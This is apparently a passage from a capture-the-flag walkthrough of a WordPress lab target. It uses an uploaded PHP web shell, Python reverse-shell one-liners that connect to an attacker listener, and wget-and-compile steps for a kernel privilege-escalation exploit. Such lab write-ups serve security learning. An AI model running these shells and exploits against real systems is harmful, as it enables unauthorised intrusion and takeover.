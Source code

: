 ```

![image](https://user-images.githubusercontent.com/69868171/119166976-4773d400-ba2d-11eb-9cfe-24a461df5daa.png)

Now going back to our `wpscan` seems we have access to the uploads page for wordpress mean we can see anything we upload `https://172.16.139.169:12380/blogblog/wp-content/uploads/` .

![image](https://user-images.githubusercontent.com/69868171/119167393-ce28b100-ba2d-11eb-9e7b-c299ebb99ea0.png)

Going through the uploads page we can see the file we upload .

![image](https://user-images.githubusercontent.com/69868171/119167758-2d86c100-ba2e-11eb-9b0f-68622fdbf8ed.png)

Now time to get command execution `https://172.16.139.169:12380/blogblog/wp-content/uploads/rev.php?cmd=id` boom we have command execution .

![image](https://user-images.githubusercontent.com/69868171/119168128-94a47580-ba2e-11eb-9d8d-9c3ade5f7c55.png)

Now getting the reverse shell  let start an ncat listener `nc -nvlp 1337` we be using python reverse shell `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'` .

![image](https://user-images.githubusercontent.com/69868171/119168569-067cbf00-ba2f-11eb-924c-6a8ea477617d.png)

Now let execute the reverse shell .

`https://172.16.139.169:12380/blogblog/wp-content/uploads/rev.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.20.10.4",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

![image](https://user-images.githubusercontent.com/69868171/119169030-8dca3280-ba2f-11eb-9362-dc78a3acfed9.png)

We have shell let spawn a TTY shell using `python -c 'import pty; pty.spawn ("/bin/bash")'` .

### Privilege Escalation

Going through the users folder nothing that stand out so i check for kernal version to see if it vulnerable.

![image](https://user-images.githubusercontent.com/69868171/119170491-4b095a00-ba31-11eb-9049-781b56863b0a.png)

I decided to deploy `linux-exploit-suggester.sh` onto the target to be sure.

![image](https://user-images.githubusercontent.com/69868171/119171085-1b0e8680-ba32-11eb-9d8b-a997ecd02c95.png)

Lot of exploit but the only work that work for me is the double-fdput exploit .

1. wget https://github.com/offensive-security/exploit-database-bin-sploits/raw/master/bin-sploits/39772.zip
2. uzip 39772.zip
3. tar -xf exploit.tar
4. chmod +x compile.sh
5. ./compile.sh

```